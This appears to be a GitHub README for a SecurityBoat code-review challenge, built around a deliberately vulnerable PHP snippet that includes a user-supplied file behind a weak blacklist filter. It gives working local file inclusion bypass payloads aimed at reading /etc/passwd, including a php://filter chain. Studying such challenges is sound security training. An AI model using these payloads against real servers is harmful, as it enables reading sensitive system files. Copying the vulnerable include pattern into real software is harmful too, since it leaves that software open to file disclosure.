 # LFI code review for December2022 by SecurityBoat

## Problem

**The task is to spot the vulnerability in the provided static code snippet and trying bypassing it by providing payload to iclude important server files like /etc/passwd or /etc/shadow etc.**

## Snippet

**Here is the code snippet to solve and perform the attack**

```javascript
<?php
require_once("constants.php");
echo "Static code review<br/>";
if($_GET!=null){
    $file=$_GET["file"];
    $file = preg_replace("/(..\/[a-z0-9]{3,4})|%[0-9]{1}|([a-z]{1,7}:\/\/)|[A-Z]{1}:\\\[a-zA-z]{1,}|(etc)|(proc)/","",$file,3);
    $file = str_replace(["etc", "proc"],"",$file);
    $file = substr($file,0,PARAM);
    include_once($file);
}
?>
```

- [Twitter](https://twitter.com/Securityb0at/status/1599010560070144003?cxt=HHwWhsCikb3o6bAsAAAA)
- [linkedIn](https://www.linkedin.com/posts/securityboat_bugbounty-infosec-cybersecurity-activity-7004777992904192000-A27O)
- [Instagram](https://www.instagram.com/p/CltR6lIIvlp/?igshid=ZmRlMzRkMDU%3D)

## Best Solution(Payload)

```
%1%1%1/etceetctc/passwd
```

## Winner of Challenge

[Egidio Romano](https://it.linkedin.com/in/romanoegidio)

## Winners Solution(Payload)

```
php://php://php://php://filter/[CHAIN_HERE]/resource=php://temp
```

## Write up

[Writeup](https://securityboat.in/spot-the-vulnerability-lfi-code-challenge/)
